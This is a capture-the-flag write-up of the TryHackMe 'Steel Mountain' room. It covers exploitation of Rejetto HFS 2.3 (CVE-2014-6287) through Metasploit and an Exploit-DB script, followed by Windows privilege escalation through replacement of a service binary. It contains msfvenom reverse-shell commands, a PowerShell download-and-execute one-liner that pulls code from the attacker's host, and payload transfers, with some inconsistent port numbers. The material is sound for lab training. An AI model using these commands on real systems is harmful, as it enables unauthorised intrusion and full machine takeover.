# TryHackMe - Steel Mountain

## Overview

**Room:** Steel Mountain  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Focus:** Nmap enumeration, web application reconnaissance, Rejetto HTTP File Server exploitation, Metasploit, Windows privilege escalation, PowerUp, service binary replacement, and reverse shells.

---

## Attack Path

The primary attack path used Metasploit to exploit Rejetto HTTP File Server, followed by privilege escalation through a vulnerable Windows service.

```text
Nmap Service Enumeration
        ↓
Identify Rejetto HTTP File Server 2.3 on Port 8080
        ↓
Identify CVE-2014-6287
        ↓
Exploit Rejetto HFS Using Metasploit
        ↓
Obtain Initial Access as bill
        ↓
Retrieve the User Flag
        ↓
Upload and Execute PowerUp.ps1
        ↓
Identify the Vulnerable AdvancedSystemCareService9 Service
        ↓
Generate a Malicious ASCService.exe Payload
        ↓
Replace the Original Service Executable
        ↓
Restart the Vulnerable Service
        ↓
Receive a Reverse Shell as NT AUTHORITY\SYSTEM
        ↓
Retrieve the Root Flag
```

This writeup documents the primary Metasploit workflow first. An alternative workflow using Exploit-DB and a standard Windows shell is included later.

---

# 1. Initial Reconnaissance and Port Scanning

## 1.1. Enumerate Open Ports and Services

I started by running Nmap against the target to identify open ports, running services, service versions, and useful default-script results.

```bash
nmap -sC -sV 10.49.177.64
```

**Command breakdown:**

- `-sC` runs Nmap's default collection of discovery and enumeration scripts.
- `-sV` attempts to identify the software and version running on each open port.
- `10.49.177.64` is the target machine's IP address at the time of the scan.

### Important Results

| Port | Service | Finding |
|---|---|---|
| 80/tcp | HTTP | Microsoft IIS 8.5 |
| 135/tcp | MSRPC | Windows RPC service |
| 139/tcp | NetBIOS-SSN | Windows NetBIOS service |
| 445/tcp | SMB | Microsoft Windows file-sharing service |
| 3389/tcp | RDP | Remote Desktop service |
| 8080/tcp | HTTP | Rejetto HTTP File Server 2.3 |
| 49152-49156/tcp | MSRPC | Additional Windows RPC services |

The scan also identified the NetBIOS computer name as `STEELMOUNTAIN` and reported that SMB message signing was not required.

The most important result was the second web service on port `8080`. Nmap identified it as **HttpFileServer 2.3**, providing a specific application and version to investigate for known vulnerabilities.

Port 80 also hosted a website that contained information relevant to the room's initial questions.



---

# 2. Web Reconnaissance

## 2.1. Identify the Employee of the Month

I opened the target's website in a browser using its IP address:

```text
http://<TARGET_IP>
```

The page displayed the corporation's branding and an **Employee of the Month** section. The employee's photograph was visible, but the person's name was not immediately displayed on the page.

Instead of guessing the employee's identity, I inspected the page source to determine whether the HTML revealed the image filename.

The relevant HTML element was:

```html

```

The image filename identified the employee as Bill Harper.




### Why This Worked

Inspecting a webpage's source can reveal information that is not presented as visible text. In this case, the image filename exposed the employee's name without requiring any exploitation.

## 2.2. Identify the Other Web Server's Port

I returned to the Nmap results and checked which other open port was running an HTTP service.

The second web server was listening on port `8080`.


## 2.3. Identify the File Server

I opened the second web service:

```text
http://<TARGET_IP>:8080
```

The page was running Rejetto HTTP File Server. The website also contained a link to the vendor's website:

```text
http://www.rejetto.com/hfs/
```

This supported the identification of the application as **Rejetto HTTP File Server 2.3**.


### Why This Service Was Important

The service version provided a concrete lead for vulnerability research. Rather than attempting random attacks against the Windows machine, I could investigate publicly documented vulnerabilities affecting the identified application.

---

# 3. Vulnerability Research: Rejetto HFS 2.3

## 3.1. Identify the CVE

I searched Exploit-DB for vulnerabilities affecting Rejetto HTTP File Server 2.3.

On the Exploit DataBase website i entered `Rejetto HTTP File Server 2.3` into their search engine and got 6 known vulnerabilities



The relevant vulnerability i chose to work with was:

```text
CVE-2014-6287
```

This vulnerability affects Rejetto HFS versions associated with the vulnerable application behavior and can allow remote command execution.

Remote command execution is particularly serious because an attacker may be able to execute commands on the target through requests sent to the exposed application.

The initial access gained through this vulnerability runs with the privileges of the account or process executing the vulnerable application. It does not automatically grant SYSTEM privileges.

## 3.2. Search for the Metasploit Module

I launched the Metasploit Framework console:

```bash
msfconsole
```

I searched for available modules related to Rejetto:

```text
search rejetto
```



The search results included modules associated with different vulnerabilities. I selected the module for the vulnerable Rejetto HFS application rather than choosing a module solely because its name appeared in the search results.

The module used for the initial access was:

```text
exploit/windows/http/rejetto_hfs_exec
```

**Important:** Verify the module's description and CVE in the output of `info` before running it. The intended vulnerability for this attack path is CVE-2014-6287.

---

# 4. Initial Access Using Metasploit

## 4.1. Configure the Exploit

After loading the module, I checked its configuration options:

```text
use exploit/windows/http/rejetto_hfs_exec
info
show options
```

The `info` and `show options` commands explain the module's purpose and display the settings that need to be configured.

I then configured the target, target port, callback address, callback port, and payload.

```text
set RHOSTS <TARGET_IP>
set RPORT 8080
set LHOST <ATTACKER_IP>
set LPORT 4545
set payload windows/meterpreter/reverse_tcp
```



Replace `<TARGET_IP>` with the target's current TryHackMe IP and `<ATTACKER_IP>` with the IP address of the attacking machine that the target can reach.

**What these settings mean:**

- `RHOSTS`: The remote target to attack.
- `RPORT`: The port hosting Rejetto HFS, which is `8080` in this room.
- `LHOST`: The attacking machine's reachable IP address. The target uses this address when connecting back.
- `LPORT`: The local port on which Metasploit waits for the incoming connection.
- `windows/meterpreter/reverse_tcp`: A Windows Meterpreter reverse-TCP payload that attempts to establish a session back to the attacker.

The attacker IP and listener port must be consistent with the current VPN connection and the selected payload configuration. Do not copy an old IP address from a previous session without verifying it.

## 4.2. Execute the Exploit

Once the required options were configured, I launched the module:

```text
exploit
```



The exploit attempted to execute commands through the vulnerable web application and establish a reverse connection.

When the connection succeeded, Metasploit opened a Meterpreter session. This provided an interactive foothold on the Windows machine.

I verified the account associated with the session:

```text
getuid
```

The initial session was associated with the user `bill`, rather than the highly privileged SYSTEM account.

### Finding

**Initial access as bill**

The exposed Rejetto HFS service provided an entry point into the target through CVE-2014-6287. The resulting session allowed further enumeration of the Windows machine.

---

# 5. Retrieve the User Flag

After obtaining the Meterpreter session, I navigated to Bill's Desktop, where the room's user flag was located.

The path was:

```text
C:\Users\bill\Desktop\
```

From Meterpreter, I navigated to the directory and listed its contents:

```text
cd C:\Users\bill\Desktop
ls
```

The listing showed the file:

```text
user.txt
```

I read the file:

```text
type user.txt
```




### Why This Step Matters

Obtaining the user flag confirms access to the user's files. It does not demonstrate administrative access, so the next objective was to identify a privilege-escalation path.

---

# 6. Windows Privilege Escalation Enumeration

## 6.1. Introduce PowerUp

After gaining initial access as `bill`, I needed to determine whether the Windows machine contained misconfigurations that could allow privilege escalation.

I used **PowerUp.ps1**, a PowerShell script designed to identify common Windows privilege-escalation opportunities, including vulnerable service configurations and permissions.

The goal was to automate the initial checks rather than manually inspect every service and configuration.

## 6.2. Download and Upload PowerUp.ps1

I downloaded `PowerUp.ps1` onto the attacking machine.

In the original workflow, the script was stored at:

```text
/root/Downloads/PowerUp.ps1
```

I uploaded it through Meterpreter:

```text
upload /root/Downloads/PowerUp.ps1
```




## 6.3. Load PowerShell in Meterpreter

I loaded Meterpreter's PowerShell extension and opened an interactive PowerShell shell:

```text
load powershell
powershell_shell
```

I then dot-sourced the script:

```powershell
. .\PowerUp.ps1
```

Dot-sourcing loads the script's functions into the current PowerShell session, making them available to execute.

I ran the automated checks:

```powershell
Invoke-AllChecks
```

This command evaluates a range of common Windows privilege-escalation misconfigurations and reports potentially vulnerable configurations for further investigation.

## 6.4. Identify the Vulnerable Service

The PowerUp results identified the following service as a potential privilege-escalation opportunity:

```text
AdvancedSystemCareService9
```

The associated executable path was:

```text
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```



This was the key finding for the privilege-escalation stage.

However, a PowerUp finding alone does not prove that every required condition for exploitation is satisfied. The relevant service permissions, binary write permissions, service control permissions, and execution behavior must support the chosen method.

The supplied notes describe the successful path as replacing the service executable and restarting the service.

---

# 7. Privilege Escalation Using Service Binary Replacement

## 7.1. Understand the Attack

The identified service ran under a privileged Windows security context. The attack depended on being able to replace its executable and restart the service.

The intended sequence was:

1. Generate a Windows reverse-shell executable.
2. Give the executable the same filename as the original service binary.
3. Stop the service.
4. Replace the service executable.
5. Restart the service.
6. Receive a reverse connection running under the service's privileged account.

If the service starts the replacement executable under the LocalSystem account, the resulting shell can run as `NT AUTHORITY\SYSTEM`.

**Important distinction:** This is a service binary replacement attack. The supplied notes mention an unquoted service path in one alternative workflow, but the path shown for `ASCService.exe` is quoted in the replacement commands. The successful binary-replacement workflow should not automatically be described as an unquoted-service-path exploit without evidence of the actual configuration.

## 7.2. Generate the Malicious Service Executable

On the attacking machine, I used `msfvenom` to generate a Windows reverse-shell executable.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4443 -f exe -o ASCService.exe
```



**Command breakdown:**

- `-p windows/shell_reverse_tcp`: Generates a Windows command-shell reverse-TCP payload.
- `LHOST=<ATTACKER_IP>`: Sets the attacking machine's callback address.
- `LPORT=4443`: Sets the port the payload will connect to.
- `-f exe`: Outputs a Windows executable.
- `-o ASCService.exe`: Saves the executable with the same filename as the original service binary.

The output filename matters because the replacement is intended to occupy the original executable's location.

The IP address and port configured in the payload must match the listener that will receive the connection.

## 7.3. Start the Listener

In a separate terminal on the attacking machine, I started Netcat:

```bash
nc -lvnp 4443
```

The options mean:

- `-l`: Listen for an incoming connection.
- `-v`: Display connection details.
- `-n`: Avoid DNS lookups.
- `-p 4443`: Listen on port `4443`.

I kept the listener running while carrying out the service replacement. It was intended to receive the reverse shell when Windows executed the replacement binary.

## 7.4. Stop the Vulnerable Service

Returning to the Meterpreter PowerShell session, I stopped the identified service:

```powershell
Stop-Service -Name AdvancedSystemCareService9
```

Stopping the service was intended to prevent the original executable from running while the replacement was being installed.

If the service refuses to stop, its current state and the account's service-control permissions must be investigated before proceeding.

## 7.5. Replace the Service Executable

I navigated to the directory containing the original executable:

```text
cd "C:\Program Files (x86)\IObit\Advanced SystemCare"
```

The replacement file needed to be uploaded to the target at this exact path:

```text
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```

The original notes contain the command:

```text
upload -f ASCService.exe
```

This command is incomplete unless Meterpreter's current local and remote paths already resolve to the intended files. The important requirement is to upload the locally generated executable to the full destination path, overwriting the original only if the account has permission to do so.

The operation can be expressed as:

```text
upload -f <LOCAL_PATH_TO_ASCService.exe> "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

Replace `<LOCAL_PATH_TO_ASCService.exe>` with the actual path to the payload on the attacking machine.

The `-f` option forces an overwrite when the destination file already exists. It does not bypass Windows file permissions.

## 7.6. Restart the Service

After replacing the binary, I returned to PowerShell and started the service again:

```powershell
Start-Service -Name AdvancedSystemCareService9
```



The intended result was for Windows to execute the replacement `ASCService.exe` when the service started.

Because the generated payload was configured to connect back to the listener on port `4443`, successful execution should establish a reverse shell.

## 7.7 Verify SYSTEM Access

After the replacement was complete a reverse shell via the netcat listener was established

The listener received the connection with the following identity:

```text
nt authority\system
```

This indicates that the resulting shell had LocalSystem privileges.

To verify the identity in the shell, run:

```cmd
whoami
```

Expected identity for the successful privilege-escalation path:

```text
nt authority\system
```



## 7.8 Root Flag

Now that I have escalated my privileges i can navigate to the Administrators account. I did so using the `cd` commands and ended up at the `C:\Users\Administrator\Desktop` directory.

Once inside the Desktop directory I listed the local fles using the `dir` command. The `root.txt` file was listed in the output

I used the following command to read the content of the root.txt file: 

```type
root.txt
```



### Finding

**AdvancedSystemCareService9 executable replacement**

PowerUp identified the service as a potential privilege-escalation target. Replacing the service executable and restarting the service provided the documented path from the initial `bill` account to a SYSTEM-level shell.

### Vulnerability

**Insufficient protection of a privileged service executable**

A service executable that can be replaced by a lower-privileged user, combined with permission to restart the service, can allow arbitrary code to execute under the service's security context. When that context is LocalSystem, successful exploitation can result in full control of the machine.

---

# 8. Alternative Method: Initial Access Without Metasploit

This section documents the alternative approach. Instead of using Metasploit's Rejetto module to obtain the initial shell, this method uses the public Exploit-DB Python exploit and a Windows Netcat binary.

This is an alternative initial-access workflow, not a second step that must be performed after the Metasploit exploit.

## 8.1. Search Exploit-DB

I searched the local Exploit-DB archive for the vulnerable Rejetto HFS version:

```bash
searchsploit rejetto hfs 2.3
```

The notes identify Exploit-DB entry `39161` as the Python exploit used for CVE-2014-6287.

I copied the exploit into the current working directory:

```bash
searchsploit -m 39161
```



This creates a local copy of the exploit script, allowing it to be inspected and configured before execution.

Before running a downloaded or copied exploit, review the script to understand its behavior and confirm that it targets the expected application and version.

## 8.2. Prepare the Windows Netcat Binary

The alternative method uses `nc.exe` to establish a basic Windows command shell.

The supplied notes use this copy command:

```bash
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .
```

This assumes that the SecLists installation contains `nc.exe` at that exact location. If the file is not found, locate the installed binary and use its actual path.

I then started a Python HTTP server in the directory containing the file on my first terminal tab:

```bash
python3 -m http.server 80
```

This server allows the target to retrieve the file over HTTP, provided that the attacking machine is reachable and the relevant port is accessible.

In a separate terminal, I started a listener for the initial reverse shell on my second terminal tab:

```bash
nc -lvnp 443
```

The payload and listener must use the same callback port. In this workflow, the intended initial callback port is `4445`.

## 8.3. Configure the Exploit Script

I opened `39161.py` in a text editor and changed the callback settings to match the attacking machine.

The supplied notes describe the relevant variables as:

```python
ip_addr = "<ATTACKER_IP>"
local_port = "443"
```

The callback IP must be the attacking machine's reachable TryHackMe VPN address, not the target's IP address or a stale address from an earlier session.

The exact variable names and expected data types should be confirmed against the copied script before editing it.

## 8.4. Execute the Exploit

I ran the Python script against the target's HFS service on my thired terminal tab:

```bash
python3 39161.py <TARGET_IP> 8080
```

The target port is `8080` because that is where Rejetto HFS was discovered.

Running the above exlpoit for the first time will execute the call to the python server. The supplied notes describe an HTTP `200 OK` request for `nc.exe` and an incoming connection to the listener.



The same exploit should be triggered a second time for the netcat listener to create a reverse shell connection.



The reported initial identity was:

```cmd
whoami
```

```text
steelmountain\bill
```

This confirmed the low-privileged initial foothold in the documented run.

**Important:** The HTTP server must serve the file from a directory containing `nc.exe`, and the script must reference the correct server address and port. The supplied notes do not include the complete contents of `39161.py`, so its exact download and execution behavior should be verified against the copied exploit.

---

# 9. Alternative Method: Privilege Escalation Without Meterpreter

After obtaining a standard Windows shell as `bill`, the supplied notes describe a second way to enumerate and exploit the vulnerable service without relying on a Meterpreter session.

This approach uses PowerShell commands, a locally hosted copy of PowerUp, and a reverse-shell executable.

## 9.1. Host PowerUp.ps1 Locally

Because the target may not have direct internet access, the notes describe serving PowerUp from the attacking machine.

Start a local HTTP server from the directory containing `PowerUp.ps1`:

```bash
python3 -m http.server 8000
```

Port `8000` is an example for this cleaned-up workflow; use the same port in the download command.

From the Windows shell, PowerUp can be downloaded and executed in memory using PowerShell:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://<ATTACKER_IP>:8000/PowerUp.ps1'); Invoke-AllChecks"
```

**Command breakdown:**

- `-NoProfile` starts PowerShell without loading the user's profile.
- `-ExecutionPolicy Bypass` bypasses the current process's PowerShell execution-policy restrictions. It does not grant additional account permissions.
- `DownloadString(...)` retrieves the script from the attacker's HTTP server.
- `IEX` executes the retrieved script in memory.
- `Invoke-AllChecks` runs PowerUp's enumeration checks.

Replace `<ATTACKER_IP>` with the correct address. The URL must match the actual address, port, and filename used by the HTTP server.

The supplied notes contain a truncated URL in one example, so that literal command should not be copied as-is.

## 9.2. Review the PowerUp Result

The notes report the following finding:

```text
[+] Vulnerable service executable: AdvancedSystemCareService9
    C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```

This identified the same service used in the primary privilege-escalation workflow.

At this stage, the objective was to confirm that the service and its executable provided a viable route to elevated execution.

## 9.3. Generate a Replacement Payload

On the attacking machine, I generated a Windows reverse-shell executable:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o ASCService.exe
```



The output file was named `ASCService.exe` so it could replace the original service executable.

In this alternative workflow, the intended callback port is `4445`, rather than `443` or `4443`. Keep the port consistent across the payload and listener.

Start the corresponding listener in a separate terminal:

```bash
nc -lvnp 4445
```

## 9.4. Stop the Service

From the Windows command shell, the supplied notes use the Service Control utility:

```cmd
sc stop AdvancedSystemCareService9
```

This requests that Windows stop the service before its executable is replaced.

Confirm that the service has stopped before attempting to overwrite its executable.

## 9.5. Transfer the Replacement Executable

The notes describe using PowerShell to download the payload directly to the service executable's path.

The intended operation is:

```powershell
powershell -NoProfile -Command "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>:8000/ASCService.exe' -OutFile 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'"
```

This assumes that the attacking machine's HTTP server is serving `ASCService.exe` from the correct directory on port `8000`.

The destination directory must be writable by the current account. If Windows denies the write, the replacement has not succeeded and restarting the service will not execute the intended payload.

The supplied notes do not include a complete command output confirming the download. Verify the transfer and destination before continuing.

## 9.6. Restart the Service

After the executable has been replaced, the notes use:

```cmd
sc start AdvancedSystemCareService9
```

If the service executes the replacement payload under the LocalSystem account and the network callback succeeds, the listener on port `4444` should receive the elevated shell.

Verify the identity:

```cmd
whoami
```

The reported result was:

```text
nt authority\system
```

### Alternative Workflow Result

The notes describe successful privilege escalation to `NT AUTHORITY\SYSTEM` through the vulnerable service.

The exact execution and permission details should be verified on the target. In particular, a successful service restart by itself does not prove SYSTEM access; the identity returned by `whoami` is the relevant confirmation.

---

# 10. Final Findings and Flags

## 10.1. Findings

### Finding 1: Employee Information in the Website Source

The employee's name was revealed through the image filename in the page's HTML source.

**Result:** `Bill Harper`

### Finding 2: Exposed Rejetto HFS Service

Nmap identified Rejetto HTTP File Server 2.3 on port `8080`. Research identified CVE-2014-6287 as the relevant remote command execution vulnerability.

**Impact:** An attacker could exploit the vulnerable service to obtain initial access, subject to the application's execution context and the exploit's requirements.

### Finding 3: Privilege-Escalation Opportunity in AdvancedSystemCareService9

PowerUp identified the `AdvancedSystemCareService9` service and its associated `ASCService.exe` executable as a potential privilege-escalation target.

The supplied notes describe replacing the executable and restarting the service to obtain a SYSTEM-level reverse shell.

**Impact:** If a lower-privileged account can replace a privileged service executable and trigger its execution, that account may be able to execute arbitrary code with the service's privileges.

## 10.2. Vulnerabilities

| Vulnerability | Impact |
|---|---|
| CVE-2014-6287 — Rejetto HFS remote command execution | Potential remote code execution through the exposed file server. |
| Insufficient protection of a privileged service executable | May allow a lower-privileged user to replace the executable and obtain the service's privileges. |


---

# 11. Attack Chain Summary

The complete primary attack path was:

```text
Nmap Enumeration
        ↓
Discover Rejetto HFS 2.3 on Port 8080
        ↓
Research CVE-2014-6287
        ↓
Exploit HFS with Metasploit
        ↓
Obtain a Meterpreter Session as bill
        ↓
Retrieve user.txt
        ↓
Upload and Run PowerUp.ps1
        ↓
Identify AdvancedSystemCareService9
